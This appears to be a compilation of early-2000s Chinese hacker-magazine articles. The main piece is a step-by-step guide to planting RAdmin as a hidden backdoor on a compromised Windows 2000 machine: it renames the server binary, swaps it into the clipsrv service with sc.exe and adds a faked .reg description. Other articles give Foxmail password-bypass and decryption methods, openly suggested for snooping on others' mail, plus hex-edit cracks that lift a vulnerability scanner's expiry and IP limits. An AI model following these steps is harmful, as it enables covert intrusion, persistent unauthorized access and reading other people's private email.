这个安全性包括：不容易被查杀；有密码保护及没有通用密码。不容易被查杀并不是软件作者所能为之的，因为一旦某个后门程序由于功能强大而流行起来的话，很难保证其不被很多杀毒工具所查杀，这也是很多作者为什么做一个“公开版”后，自己还要做一个“私人版”的原因。至于有密码保护，这一点也是很重要的，不然，辛辛苦苦弄到手的“肉鸡”很有可能不久之后落入他人之手而将自己关在门外。对于没有通用密码，冰河木马的衰落就是一个活生生的例子。我就不再多言了。

## 二、隐蔽性

上面我们说了，后门程序的运行需要利用到系统的启动选项或以服务的方式来运行，我认为，将程序放在启动选项里面是最容易被发现的；而以服务的方式运行，由于需要在服务列表中新增加一项服务，虽然比前者要隐蔽一些，但很多管理员还是会去查看系统的服务列表（尽管很多的管理员从来不去看或很少去看）或者看系统进程来发现已运行的可疑程序。一旦对方拿着系统刚装完时导出来的服务列表跟现在的服务列表对照，就会发现我们种下的服务。所以新增服务、新增启动选项的隐藏性还不能真正满足我们的要求。

## 三、易用性

一个后门程序的功能是否强大、易用也是一件应该考虑的事情。

基于以上几点，现在我拿 Remote Administrator（以下简称 RAdmin）作为后门程序（话没有说完，臭鸡蛋如雨点般打过来。呵呵！幸好我早有准备，闪得快）RAdmin 和 PCanywhere、Winvnc 等一样是一款远程管理、控制软件，分客户端和服务端，但后两者服务端安装完成后，会在状态栏多出一个图标，而 RAdmin 则可以实现图标的隐藏。RAdmin 服务端默认在目标机器上安装完成后，以服务的方式运行，并且会在服务列表中新增一项 “Remote Administrator Service” 的服务，呵呵，虽然很多管理员从来不去看启动选项及服务列表里面的内容，但你也无法保证你进入的机器的管理员是个例外吧（我真的这么衰么）？如果对方在查看服务列表时，会看着新增的这个 “Remote Administrator Service” 服务、看着系统进程多了一个 r_server 进程而不想吗？如果我们能够通过替换系统自带的服务且不改变其服务性质而来达到我们留下后门的目的，那是一件再好不过的事情了。:-）

现在我先来介绍一下 RAdmin。RAdmin（我的网站提供下载及注册码）目前最新版本是 2.1。由于安装比较简单，我就不说了。安装完成后需要重启，比较麻烦。

重启后我们打开 “开始” → “程序” → “Remote Administrator 2.1” 下的 “Settings for Remote Administrator Server” 对服务端进行设置，这时会要求输入注册码，输入完毕后会打开如图 1 所示对话框：

图1

第一、二个按钮分别是本地服务安装、删除，第三个按钮 “Set password” 是设置连接密码的。按此按钮进入设置密码，如图 2 所示。设置的密码需要超过 8 位。下面的 “Enable NT security” 一般不用理，按 “OK” 退出。按 “Options” 按钮进入 RAdmin 的基本设置，

图2

如图 3 所示。RAdmin 默认的连接端口是 4899，我们可以修改成想要的端口号。不选 “Use default port” 然后填入其他端口号，例如我在这里填 23456 端口。在设置端口号的右边，我们将 “Hide tray icon” 前面的框选上，这个开关是设置是否要在服务端的状态栏显示 RAdmin 安装的图标，如果不选，会在状态栏出现如图 4 那个带 R 的图标。这个选项非常重要，这也是很多人选用 RAdmin 作为后门的原因，所以我们要将这个选项选上。其他的，我们不用理会，按默认即可。这样我们配置出来后的结果便如图 5 所示。

图3

图4

图5

配置完服务端的设置后，由于我们需要在 “肉鸡” 上安装服务端，为安装方便，我们打开注册表，并找到 HKEY_LOCAL_MACHINE\SYSTEM\Radmin

子键，如图6所示。

图6

将其内容导出，在要安装服务端的机器上，将其导入，即完成对服务端相同的配置信息，只须在服务端安装了。

上面我们已经说了，RAdmin 服务端默认安装完成后会在系统服务列表增加一项“Remote Administrator Service”的服务，并且在系统进程中增加一项“r_server”进程，这个很容易被对方管理员发现。现在我们利用 RAdmin 来给大家演示一下如何给目标机器留下后门并替换现有服务来达到隐藏所装服务的目的。

Let's go!

假设我们已取得某台 Win2000 主机的 admin 权限，现在我们来试着以服务替换的方式隐藏我们在目标机器上安装 RAdmin 服务。我们用系统自带的“clipsrv”（服务列表显示是 clipboard 服务，它在注册表及调用的文件都是 clipsrv，为避免和下面的文件混在一起，以下将一直用 clipsrv 来说这个服务）来替换。该服务是 Windows 2000 自带的服务（NT、XP 我没有用过，所以不知道是否有该服务），安装完成后自动启动，但它不是系统必须的，这正是我们需要的。现在我们就拿它来开刀（clipsrv 大叫：为什么偏偏选中我）。

先将所需文件复制到目标机器，如图7所示。我们成功地连接到一台 Windows 2000 的机器，并将所需文件 Copy 到对方的 admin$、system32 文件夹下，该文件夹是系统文件的默认存放位置且这里的文件非常多，容易隐藏。

已复制的文件的作用如下：两个 dll 文件是 radmin 服务端运行时可能要用到的文件，为避免

图7

在对方机器上安装时因为缺少文件而弹出对话框这种尴尬情况，我们也将它复制上去；Clipbook.exe 是我将 RAdmin 的服务端 r_server.exe 更名而来的，如果不更改，服务端安装完成后会在进程列表外多出一个 r_server 进程，而更名后则会多出一个 clipbook 进程，后者要比前者更不会引起管理员注意，所以更名，当然，你也可以改成其他不易引起他人注意的名字；而 radmin.reg 是我们刚才配置完服务端后导出来的注册表文件，R_server.reg 等一下我再介绍；sc.exe 是 win 下 Resource kit 下的一个工具，等一下我们要用到。

上面我们已经将所需文件复制到目标机器，现在我们 Telnet 到对方的机器上继续我们的工作（如何 Telnet 到对方机器这里不做介绍）。

现在我们 Telnet 到目标机器并将 radmin.reg 导入对方注册表，如图8所示。

图8

如果我们不替换系统的服务，也就是用 RAdmin 服务端自带的安装，那我们现在接着输入 clipbook/install 即可完成安装。但现在我们不打算这样做，我们要替换 clipsrv 服务。要替换该服务，这里把它分成完全替换和数值替换。完全替换就是将原有服务完全删除后重新建一个服务，并将其在服务列表的名称改成跟原来的一样；数值替换就是只修改该服务中某个键值，达到偷梁换柱的目的。相对而言数值替换要简单一些。但不管采用哪一种方法，都必须停止该服务。

我们先用数值替换，将 clipsrv 服务运行调用到的程序改成 RAdmin 服务端运行的程序，我们利用 sc.exe 在 cmd 下修改。我们先查询 clipsrv 服务的状况，如图 9 所示。

图 9

图 9 显示出 clipsrv 服务的状态跟系统默认的一样，都是自动启动且已启动。我们停止该服务并开始修改 clipsrv 服务调用程序的文件名，如图 10 所示。

图 10

由图 10 可以看出，我们已经停止该服务并成功修改 clipsrv 服务（sc 直接调用的是服务的函数，所以要用 sc 修改该服务不能用 clipbook，必须用 clipsrv）调用程序的值，也就是 RAdmin 服务端程序。而 clipbook.exe 后面的 /service 是 RAdmin 服务端运行时的参数，一定要加上。

现在 RAdmin 服务端已成功替换，但还没有启动，我们可以用 sc 来启动，如图 11 所示。

现在我们在目标机器上已成功将 RAdmin 服务端程序植入 clipsrv 服务中了，由于该服务是系统自带且为自动启动，如果不仔细检查，还真的没法看出来。

图 11

不过用上面的替换方法后，可能是由于 RAdmin 的原因吧，RAdmin 的 “full control”、“view only” 两个功能都无法用（我在我的机器上没有成功过，哪位高手知道原因）。“full control” 一旦连接成功，将会和对方产生一个交互式登陆的会话，能够操作、查看对方机器，跟本地操作一样。当然，你所做的操作对方也能看到。“view only” 和 “full control” 的区别在于前者只能看对方操作而不能做任何事情。

既然能够和对方产生一个交互式登陆，我们一定要想办法弄到，现在让我们来看看完全替换法。

这里说的完全替换法，实质上就是做一个在服务列表中完全一样的服务。用完全替换，我们必须先将原服务删除或更名。我们仍以 clipsrv 服务为例来做实验（此时 clipsrv 一脸无奈。Sorry！Clipsrv，你就怀着“我不入地狱谁入地狱”的心态来为大家服务吧）。

如图 12 所示，我们先将 clipsrv 服务停止，然后再删除该服务。接着将我们更改后的 RAdmin 的服务端 clipbook.exe 安装上。RAdmin 服务端不管改成什么名称，在安装完成后都会在服务列表增加

图 12

一项“Remote Administrator Service”服务。默认是自动启动的。现在我们给“Remote Administrator Service”增加服务描述及更名。由于我们要替换的是 clipsrv 服务，所以我们也引用该服务默认的描述，使它更不易发现，如图13所示。


我们导入了 r_server.reg 文件，r_server.reg 是从“clipsrv”服务的描述导出来的，是为“Remote Administrator Service”增加描述的文件。如果你想改成别的，也可以用 sc 修改。R_server.reg 内容非常简单，如图14所示。

```
reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\r_server]
"Description"="支持‘剪贴簿查看器’，以便可以从远程网站查看剪贴簿页面。"
```

现在我们将“Remote Administrator Service”服务显示的名称改成“clipbook”，如图15所示。


哦，对了，服务列表显示的名称首字母都是大写的，你也跟着大写吧，我是在我的机器上测试的，测试的时候忘了。接下来我们可以启动该服务。

好了，我们在目标机器上做了这么多工作，服务端现在是个什么个样呢？我们连接到对方机器并打开服务查看服务列表显示名称为“clipbook”的属性，如图16所示。


怎么样，造假技术如何？虽然真正的“clipbook”服务调用的不是这个程序，但用 clipbook /service 通常也能蒙混过关，clipbook 服务调用 clipbook 文件嘛！这也是我为什么将 RAdmin 服务端改名成 clipbook 的原因。另外，替换后的服务名称处依然显示 r_server，这一点，有时会引起其他人的注意，关于这一点用前面提到的数据替换法就没有这个问题。还有，在进程列表处，通过上面的修改，会多出一个叫“clipbook”的进程，而不是 RAdmin 服务端没有更名前的“r_server”，它比后者更不会引起管理员的注意。用 RAdmin 作后门还有一个比较大的隐患在于它会打开特定端口，这跟很多后门程序是一样的。不过用 RAdmin 作后门最大的好处在于它永远不会被查杀（该不会有哪个杀毒工具跟远程控制软件过不去吧）。

通过上面的设置、修改，能够很快发现该后门的管理员已不算太多了。虽然它还存在这样那样的缺点，但不管如何，这个也是继“没有端口、没有进程、永不被查杀”的程序之后，最能蒙混过关的后门了。如果能够用“没有端口、没有进程、写后不公开”的后门程序再结合上面提到的隐藏方法，那一定是一个比较完美的后门。

说了这么多，那么到底 RAdmin 有什么功能值得我们如此大动干戈？现在让我们来看看 RAdmin 给我们带来了什么：

+ 1. 安全：RAdmin 是一个完完全全的远程管理软件，不会受到杀毒工具的查杀。RAdmin 不对系统本身带来任何危害，不能拿它和木马相提并论，所以不会被那些杀毒工具所查杀。再就是 RAdmin 提供密码保护，不会像一些木马程序具有通用密码，所以只有知道密码的用户才能够连成功。


RAdmin 一旦连接，会出现如图17的对话框：由于 RAdmin 要求密码至少 8 位，所以从某种程度上讲，它应该是安全的（设置密码时采用弱口令除外）。

2. 功能强大：RAdmin 提供的功能很强大，这也是为什么有那么多用户用它的原因。提供的功能如图18所示。


“full control”前面已经说了，连接成功后会与目标机器的当前用户产生一个交互式登陆的会话，连接后如图19所示。


这个功能对很多管理员来说是至关重要的，管理员可以通过它对远程的机器进行管理、维护。使用时，感觉上和在本机操作没有太大的区别。

“view only”记得很多木马都有提供查看当前目标机器屏幕的功能，RAdmin 也提供这个功能。

“telnet”功能，喜欢 Hacker 技术的朋友对这个功能应该很熟悉了，我就不说了。连接成功后会产生如图20所示的对话框。


“file transfer”文件传输功能，呵呵，以后进入一台机器后，只要在对方的机器上安装 radmin 服务端后，上传文件就再也不用老是打那长长的字符串了，用拖拽就行，这个和 Windows 的资源管理器有点类似，只不过这个是上下窗口而已，如图21所示。


“shutdown”关机功能，RAdmin 提供的功能倒是挺多的，连关机功能也有好几个选项，如图22所示。


不管如何，我还是建议你不要轻易关掉或重启对方的机器，这很容易引起对方的注意。

以上在我的机器（Windows 2000 Advance Server+SP3、Windows 2000 Profession+SP3）测试通过，其他的等待你去测试。

虽然我不是很喜欢入侵，而且我知道网上这类教程很多，但我还是希望本文能够对某些人有所帮助。如果你对本文仍存在疑问或技术问题，请与我联系，我的 E-mail 是：netff@21cn.com

# 忘记 Foxmail 密码的十大对策


文/gx

作为出色地国产电子邮件客户端软件，Foxmail 颇受大家的青睐，我也一直在用它。为了防止自己不在时信件被人看到，我给每一个账户都加了访问口令，可是前一阵子出去玩了一周回来后，我竟然把邮箱密码给忘了，这可怎么办呢？经过一番研究，我想到了忘记 Foxmail 账户密码的 10 种应急方法。

## 一、使用 Foxmail 账户口令清除器

Foxmail 账户口令清除器是一个绿色小软件，它可以在你忘记账户密码时，为你解除 Foxmail 的口令。可以到 http://ww2.heibai.net/download/show.php?id=3495 下载该软件的 1.0 版，大小只有 15KB。解压后只有两个文件 Readme.txt 与 Clr_FoxmailPwd.exe。运行 Clr_FoxmailPwd.exe，单击右边的“打开”按钮（图 1），选择要清除的 Foxmail 的账户目录，该目录在 Foxmail 安装目录下的 Mail 子目录下，以你的账户名命名。举个例子，假设你忘记密码的账户名为 123，Foxmail 安装在 C 盘根目录下，则你要选择的目录就是 C:\Foxmail\Mail\123，选定之后点击“清除密码”按钮即可。现在打开 Foxmail，点击原来有口令的账户，则不需要口令就可以进入该账户了！如果点击“修复密码”按钮还可以找到原来的密码，这回再也不怕忘记密码喽！

## 二、利用 Foxmail 邮件查看器

与上面介绍的软件不同，该软件可以直接查看加密账户内的邮件，它并不清除该账户的密码，所以如果用来偷窥别人的邮件可能更好些（相对来说对我们的危险也就更大些）。Foxmail 邮件查看器支持 Foxmail 3.xx/4.xx 等各个版本，你可以到 ftp://211.100.8.153/download/20/11050_c-foxmail.exe 下载该软件，目前最新版本是 1.11，只有一个文件 c-foxmail，大小为 32KB。运行 Foxmail，选择你要查看的已经加密的账户名，然后运行 c-foxmail，在 c-foxmail 的主界面中用鼠标按下 Foxmail 图标，不要松开左键，然后指向……


图 1


图 2

Foxmail 的账户列表窗口，再释放左键，该软件会在自己的窗口中生成一个用户列表（图2）。在该窗口中找到加密的账户名，松开左键，此时 Foxmail 会提示你输入密码，点击“取消”按钮即可，现在无需密码就能看到邮件内容了！


## 三、复制其他账户下的 Account.stg 文件

在 Foxmail 中新建一个账户，假设为 123。然后打开“资源管理器”或“我的电脑”，找到 Foxmail\Mail 文件夹，你会发现这里有许多以账户名命名的文件夹，打开其中的“123”文件夹，里边有个名为“account.stg”的文件，把它复制到你忘记了密码的账户目录里，直接覆盖该目录下原来的“account.stg”文件。重新运行 Foxmail，点击那个忘记了密码的账户，啊啊，不会再向你要口令了，可以直接进入该信箱！


## 四、给 Account.stg 文件更名或删除

其实，我们可以更简单进入忘记口令的账户，浏览自己以前的信件。方法是：进入 Mail 文件夹下以你的账户名为目录名的目录下，将其中的 Account.stg 文件更名或删除，然后运行 Foxmail，此时不需要密码就可以进入信箱！

## 五、利用 16 进制文件编辑器 UltraEdit-32

UltraEdit-32 是一款非常出色的文字、Hex、ASCII 码编辑软件，可以对 exe 和 dll 文件进行编辑，使用 UltraEdit 可以让我们自由定制自己的应用程序，真正做到随心所欲地使用软件。大家可以到 http://www.skycn.com 下载该软件。下载后，运行 UltraEdit，然后用它来打开 Foxamil 的主程序 foxmail.exe 文件，按 Alt + F3 查找以下的代码：E81DE7E9FF7515（图3），点击“下一个”按钮会找到惟一的一处结果（图4），把其中的 7515 改为 9090，其他内容不变。然后保存修改结果即可。

运行 Foxmail.exe，打开你忘记密码的 Foxmail 的邮箱，随便输入点什么，都可以进入你的邮箱！接下来，重新设置一个新的密码即可了。

## 六、利用 16 进制文件编辑器 MiniHex

MiniHex 是一个 16 进制文件编辑器，可以方便地打开 EXE 或 DLL 文件，用它来解决忘记 Foxmail 密码问题也很简单。运行 MiniHex，用它打开忘记口令账户对应文件夹下的 Account.stg 文件，将地址从“00000F89”到“00000FAF”中的数据全都改为“00”，然后保存该文件。运行 Foxmail，这个忘记了密码的账户前面的“小锁头”图标没有了，可以随意看自己以前的邮件喽！

## 七、利用查看“*”号工具

如果你忘记 Foxmail 密码，但是你曾经在


Foxmail中设置过密码，现在该密码以“*”号显示在Foxmail中，那么只要在键点击你的账户，在弹出菜单中选择“属性”，然后点击“邮件服务器”，在这里你会看到以“*”号显示的邮箱密码（图5）。然后用任意一款密码查看软件就可以发现“*”号中是什么内容。比如说，超级兔子魔法设置软件就有查看“*”号内容功能。


图 6

首先，在Foxmail中选择“属性”→“邮件服务器”，在“密码”栏中就可以看到你的密码正以“*”号显示。然后运行超级兔子魔法设置软件，点击“密码攻略”选项（图6），在出现的窗口中点击“显示密码”按钮，就会在Foxmail的“密码”栏中显示你已经忘记的密码（图7）！其实，如果在Foxmail中保存过密码，即便不使用查看*号工具，也可以得到Foxmail的密码！就像本文方法六中讲述的那样。


图 7

### 八、自己计算出Foxmail的密码

使用这个方法有个前提，那就是你的Foxmail密码其实没有丢，只是你一时忘记了，在Foxmail中保存有该密码，并且目前它正以“*”号显示，如果你不想使用显示“*”号内容工具，就可以用本方法了。用本方法可以得出Foxmail的密码明文。虽然很麻烦，但只要你用心读下去，你就会学到你和别人都不会的方法，顺便还可以了解到Foxmail的密码加密方法，还是很值得的！

中保存有该密码，并且目前它正以“*”号显示，如果你不想使用显示“*”号内容工具，就可以用本方法了，用本方法可以得出Foxmail的密码明文。虽然很麻烦，但只要你用心读下去，你就会学到你和别人都不会的方法，顺便还可以了解到Foxmail的密码加密方法，还是很值得的！

用记事本打开忘记密码的账户对应的文件夹下的Accounts.cfg文件，找到“POP3Password=”这一行，它后面的内容就是经过加密处理后邮箱密文，这里假设你看到的是：AD55EC57F1。然后请你记住：“draGon”这个单词（注意要区分大小写），它是Foxmail的加密密钥。记住以后我们开始行动。

得到密钥的16进制值：运行UltraEdit，在它的文件编辑状态下输入“draGon”这个单词（没有引号），然后单击“编辑”菜单下的“16进制编辑”，可以查到这个词的16进制编码（图8），为：7E 64 72 61 47 6F 6E 7F，分别记为a1，a2，a3，a4，a5，a6，a7，a8。再记住一个恒定的值5A，记为C0，这个C0我们在下面会用到。

计算密文位数：然后将密文AD55EC57F1两两分开，结果为：AD，55，EC，57，F1，分别记为b1，b2，b3，b4，b5。用密文长度÷2再减去1就得到邮箱口令的位数了。以本文为例，口令长度为：10÷2-1=4位，即该账户密码为4位数。


图 8

得到计算密码明文的中间数C1：接下来，点击“开始→程序→附件→计算器”，打开计算器。在计算器中用C0与b1做异或运算，即5A xor AD，其结果为F7，记为c1。c2～c5直接从密文Bi中“继承”而来，但开头和结尾的两个不用，也就是不要本例中的AD和F1。于是得到c1=F7，c2=55，c3=EC，c4=57。这样，我们就得到了至关重要的参数C1。

注：以上都是16进制值。

得到计算密码明文的中间数 Di：现在，用从第二位起的密文和密钥对应的 ASCII 码作异或运算，即用 b2 与 a1，b3 与 a2，b4 与 a3，b5 与 a4 分别做异或运算，得到 Di 的值分别为：2B，88，25，90。比较 Di 与 Ci 的大小，如果 Di 小于等于 Ci，则使 Di=Di+FF，如果 Di 大于 Ci，则 Di 的值不变。在本例中 Di 系列中的 d1 与 d3 小于 Ci 中对应的值，所以要加上 FF，调整后的 Di 的值分别为：12A，88，124，90。

求解出账户密码明文：用 Di 减去 Ci 得到 Ei，E1 就是密文解码后的明文，本例中的密码是：12A-F7=33，这是密码的第一位数，转为 10 进制为 3；88-55=33 这是密码的第二位数，转为 10 进制为 3；124-EC=38，这是密码的第 3 位数，转为 10 进制为 8；90-57=39，这是密码的第 4 位数，转为 10 进制为 9，把这 4 个数串起来就是 3389，这个 3389 就是该账户的密码！

## 九、利用金山邮件

WPS Office2002 提供了一个非常完善的邮件管理系统——“金山邮件”，利用它可以避开 Foxmail 中的口令，直接读取邮箱中的内容。

- 1. 智能导入功能

进入“金山邮件”系统中，通过“添加新账户向导”，在“导入”中找到“智能导入”，此时系统会弹出导入向导，然后在“金山邮件已经搜索到你的系统中的邮件资源”中找到 Foxmail，再找到 Foxmail 的加密账户，然后按照向导的指引完成资源的导入。现在进入“金山邮件”查看一下你刚才导入的 Foxmail 的邮件资源，可以直接看到其中内容了吧？这个方法等于是绕过了 Foxmail 的加密口令，看来 Foxmail 的口令保护的确不够安全。

- 2. 导入邮件功能

在“金山邮件”中依次选择“文件→导入→邮件”，在“导入邮件类型”中找到 Foxmail，接下来在“选择 Foxmail 邮箱数据”窗口中选择加密的邮件目录，在向导的指引下完成邮件导入，然后就可以在没有口令的情况下直接查看邮件内容了。

## 十、直接查看邮件内容

其实我们还可以更简单些，直接查看邮件内容。你可能要问，加有口令怎么直接查看邮件内容啊？嘻嘻，这里面就有个小技巧：直接运行 Foxmail 当然无法查看了，你不运行 Foxmail，而是查看存放 Foxmail 邮件内容的文件，不就可以看到里面的内容了吗？说白了就是直接用 UltraEdit 等 16 进制文件编辑软件，打开账户名文件夹下以 .box 为后缀的文件（in.box 为收件箱；out.box 为发件箱；sent.box 是已发送邮件箱；trash.box 是废件箱），是不是你的信件内容都在其中啊？不过，由于编码的不同，里面会有许多的乱码（实际上并不称为乱码）。你可以到 http://www.downme.com/down.php?nbr=7616&urlr=6 下载一个名为“乱码察看器”的软件，它可以查看包括 MIME/BASE64、Quoted-Printable、HZ 和 UUCode 四种形式的编码和解码，这样你就可以很方便地查看相关的内容了。

防范方法：看了上面的介绍方法，是不是有些害怕了？其实如果你是自己单独用一台电脑，完全不用担心有人会用这些方法来查看你的邮件，因为这些方法都必须在你的电脑上操作才行。但是如果你是和别人共用一台电脑，或者是在网吧或学校、单位机房上网，那就要小心了。该怎么防范呢？重要信息与信件最好另行备份，然后将你的账户所对应的文件夹删除。或者在建立账户时，邮箱路径不要选择默认的，输入一个自己才知道的，如 C:\WINNT\system32，存系统文件夹下，估计一般人都不大敢动。再保险一点，找到你新建的信箱文件夹后，点击鼠标右键，在弹出菜单中选择“属性”，将文件夹设为“隐藏”，别人想找你的文件夹也就更费力气了。除此以外，再使用 WinZip 对该文件夹进行压缩，对压缩后的 ZIP 文件加上一个长一点的访问口令，使用时将其展开，使用完毕再如法炮制即可。

其实用户名账户管理不是一个很好的办法，建议 Foxmail 的开发商博大公司能够改一下这种做法，并且最好能对本地信件内容加密处理，就像 QQ 可以选择给本地消息加密那样，这样我们的信件安全能多一些保护。听说 Foxmail 5.0 就要出来了，让我们一起期待它的安全性能更好些！

# 天网防火墙的两则妙用

文／我心如风

天网防火墙个人版（以下简称为天网防火墙）是由天网安全实验室研发的网络安全工具，它有灵活的安全级别设置和实用的应用程序规则设置，更有详细的访问记录和严密的应用程序网络状态监控功能，可以很好地保护我们的网上安全。其中，利用天网防火墙提供的应用程序网络状态功能，用户还能够监视到所有开放端口连接的应用程序及它们使用的数据传输通讯协议，任何不明程序的数据传输通讯协议端口，例如特洛依木马等，都可以在应用程序网络状态下一览无遗。利用应用程序网络状态监控功能，还有其他妙用，请看本文的两则妙用！

在 IE 地址栏中输入 http://66.218.71.81 试试就知道，66.218.71.81 就是雅虎的网站 www.yahoo.com（图3），202.108.37.35 就是新浪网 www.sina.com.cn 的 IP 地址。这回你该明白了吧？

## 一、让流光IV永不过期

流光是款出色地漏洞扫描工具，Windows 98 用户所能使用的最终版本为流光IV，该版本以后的流光都不支持 Windows 98 用户，而可怜的 Windows 98 用户连流光IV也不能一直使用下去，因为在使用流光IV时它会提示软件已经过期，之后拒绝运行。利用天网防火墙可以让我们一直使用流光IV，永不过期。方法是：先把系统日期调整为 2001 年，这样流光IV就不会提示过期了。但是一旦你连线上网，流光IV又会提示软件过期，这是因为流光IV还会自动从网上校验时间，光改系统日期是不行的。不要急，请出我们的天网防火墙，用天网防火墙来破解它。运行天网防火墙，然后再启动流光IV，此时天网防火墙会弹出一个对话框，向你请示是否允许流光IV采用 TCP 协议连接到网络 202.108.37.35 和 66.218.71.81，如图1、图2所示，在 IE 地址栏中输入 http://66.218.71.81 试试就知道，66.218.71.81 就是雅虎的网站 www.yahoo.com（图3），202.108.37.35 就是新浪网 www.sina.com.cn 的 IP 地址。

流光IV就是通过访问这两个网站来校准时间的，如果我们不让它访问这两个网站，它就得不到目前真正的时间，这样不就可以长期使用流光IV了吗？

所以，我们只要在“天网防火墙警告信息”窗口中把“以后都按照这次的操作进行”勾选上，然后点击“禁止”按钮，这样就可以禁止流光IV从网上校验时间，你的流光IV就永远都不会过期了！

## 二、巧破广告上网卡的Flash

现今宽带上网已经非常普及，但是由于种种原因使得还在使用 Modem 的网民也不在少数，为了节省 Money，许多拨号上网用户选择了使用上网卡。其中有一类上网卡非常便宜，它们就是广告上网卡，除了其本身价格低廉以外，还包电话费，于是许多人选择了这类上网卡。但是这类上网卡都有一个特点或者说缺点，那就是需要使用专用的拨号程序，这且不说，最令人受不了的是上网的时候会时不时有 Flash 广告跳出来让你看（很像 QQ 的 Flash 广告），这使得本来速度就不快的“小猫”更加不堪重负、步履蹒跚。利用天网防火墙可以轻松地去除这些 Flash 广告，让你在上网时免受打扰。

方法是：首先要安装广告上网卡的客户端，设置好你的上网账号（不然就无法享受到优惠的价格了）。然后运行天网防火墙，再用广告上网卡客户端拨号上网，此时“勤劳”的天网防火墙会跳出一个对话框，提示你拨号客户端要连接 Internet，询问是否允许该软件访问网络；点击“允许”，待拨号程序完成认证后，天网防火墙又会提示你，应用程序 mediachip.exe 要连接 Internet，询问是否允许通过，mediachip.exe 就是负责广告处理的程序，它想要联网下载 Flash 广告到你的硬盘里，因此我们只要选择“禁止”即可，这样，上网卡的 Flash 广告就再也不会下载到你的电脑里了，既可以享受到广告上网保月卡的便宜，又没有广告的打扰，真是一举两得！

# 不让 Outlook Express 的通讯簿自动转发带毒邮件

文／郭连元

现在很多电脑病毒，一旦感染，便会利用 Outlook Express 的通讯簿自动转发带毒邮件，以达到扩散病毒的目的。其实只要我们对通讯簿稍做改动，就可以防止病毒利用 Outlook Express 的通讯簿自动转发带毒邮件了。

- 1. 启动 Outlook Express，选择“工具”菜单中的“通讯簿”，调出通讯簿编辑窗口（图1）。
- 2. 点击通讯簿编辑窗口中“文件”菜单内的“新建联系人”，进入联系人属性编辑窗口（图2）。
- 3. 在图2“名(F)”输入框中输入“.”（一个点字符）。此时图2的“显示(P)”框中会显示刚才输入的“.”字符。“电子邮件地址(M)”框中不要输入任何内容。完成以上操作后，按“确定”按钮返回。
- 4. 由于 Outlook Express 通讯簿是根据符号、英文字母及中文笔画进行排序，在通常情况下，刚才输入的“.”联系人会排列在通讯簿的第一位（除非用户喜欢用符号给联系人命名）（图3）。
- 5. 经过以上设置后，你就再也不会转发带病毒的邮件了。

## 突破流光IV的限制

文／沧浪客

流光是一款大名鼎鼎的高级扫描工具，为国人小榕所开发，它可以让一个刚刚会用鼠标的人成为专业级黑客，流光可以探测 POP3、FTP、HTTP、PROXY、FORM、SQL、SMTP 上的各种漏洞，并针对各种漏洞设计了不同的破解方案，能够在有漏洞的系统上轻易得到被探测的用户密码。不仅初级黑客喜欢使用它，一些资深黑客也对流光青睐有加。不过，令人遗憾的是在 Windows 98 下可以使用的最高版本为流光 IV，由于作者小榕的设计使然，流光 IV 到了今年就再也无法使用了，运行流光 IV 会提示软件已经过期。那么 Windows 98 下的用户该怎么办呢？一种办法是升级操作系统到 Windows 2000/XP 下，另外一种办法是自己来解决流光 IV 的过期问题。除了这个问题以外，流光 IV 还有扫描国内 IP 限制，今天我们的目的就是解决这两个问题。

首先你的电脑中得安装有流光 IV，下载地址：http://www.netxeyes.com/fluxay4/fluxay4for98setup.exe，然后把系统日期调整到 2001 年，为什么不调整到 2002 年呢？因为我试过，调整为 2002 年再使用下面的办法依然会提示过期。接下来下载一个 16 进制文件编辑软件 UltraEdit，在 www.newhua.com 有下载。安装 UltraEdit 完毕，运行它，点击“文件”菜单下的“打开”，选择打开流光 IV 的主文件 fluxay4.exe，然后点击“搜索”菜单下的“查找”，在出现的“查找”对话框的“查找什么”栏中输入：www.yahoo.com，记住在该窗口中要把“查找 ASCII 字符(A)”勾选上（图1），否则你什么也找不到。点击“下一个”按钮，会找到唯一的一处结果，如图2所示。然后，把光标定位到该窗口右边的 ASCII 码区，把 www.yahoo.com 及其后面的 www.sina.com.cn 分别改为 wvwe.yahoo.com 和 wvwe.sina.com.cn。之后，按 Ctrl+Home 组合键，把光标定位到文件的最顶端，再次点击“搜索”菜单下的“查找”，查找以下字串：7438A184915700，找到后把它们改为：EB38A184915700，然后点击“文件”菜单中的“保存”，把你的修改结果保存下来就可以了。运行流光 IV，再也没有过期提示了！

注意：如果你不把 7438A184915700 改为 EB38A184915700，则运行流光 IV 后会有文件被修改的提示，然后流光 IV 会自动关闭，结果就是该软件无法成功启动。这是因为流光 IV 具有自检功能，发现自身被非法修改后就会拒绝运行，而按照我说的方法去修改就不会有类似的提示了。

对于流光 IV 的国内主机 IP 扫描限制，可以这样来突破它。首先运行流光 IV，在流光的主界面的右下方可以看到目前可以扫描的 IP 段范围为 169.254.220.1——169.254.220.255（图3），记住这个 IP 范围，因为我们下面还要用它来进行比较。接下来用鼠标右键点击桌面上的“网上邻居”，在弹出菜单中选择“属性”，会出现“网络”对话框；在该窗口中点击“配置”标签，再选中“TCP/IP 拨号网络适配器”（图4），点击“属性”按钮，会弹出一个对话框，点击“确定”按钮之后，会出现“TCP/IP 属性”窗口（图5）；在该窗口中选择“IP 地址”标签，选择“指定 IP 地址”选项，然后在“IP 地址”栏中输入你要扫描的 IP 段的任意一个 IP 地址即可。比方说，你要扫描 61.158.157.1——61.158.157.255 这个 IP 段，则只要把自己的 IP 地址设定为 61.158.157.88 等就可以了。要注意的是：你必须在每次设定 IP 后重新启动计算机，这样就没有问题了。试试修改后的结果，运行流光 IV，看主界面的右下方，可以扫描的 IP 范围发生了变化（图6），现在是 61.158.157.1——61.158.157.255，呵呵，可以扫描该目标网段了！大功告成！不过要提醒大家不要随意入侵国内的主机，如果发现对方有漏洞，一定不要黑人家，告诉他就可以了。我想这也是小榕限制扫描国内主机的主要原因吧。

好了，到此我们就解决了困扰我们的流光 IV 过期问题和无法扫描国内主机问题，很简单吧？再次提醒大家不要入侵国内的主机，切记切记！

## Window按钮突破专家——突破不可用选项的限制

文／大鹰

大家一定都遇到过这种情况，就是在使用软件的过程中发现某些按钮或菜单项为灰色不可用状态，此时我们无法使用该功能。举个例子，在安装瑞星杀毒软件2003的过程中一定要输入序列号才行，否则将无法进行下去。如果我们能让灰色的不可用选项亮起来，就可以使用该功能了。要想使之亮起来，可以自己动手破解，但那样要求较高，你必须会使用与反汇编相应的软件，然后再跟踪分析，对汇编一定要很熟才行。其实，无需这么麻烦，只要有了Window按钮突破专家这款小软件，就可以让你达成所愿，使用上心爱的软件。

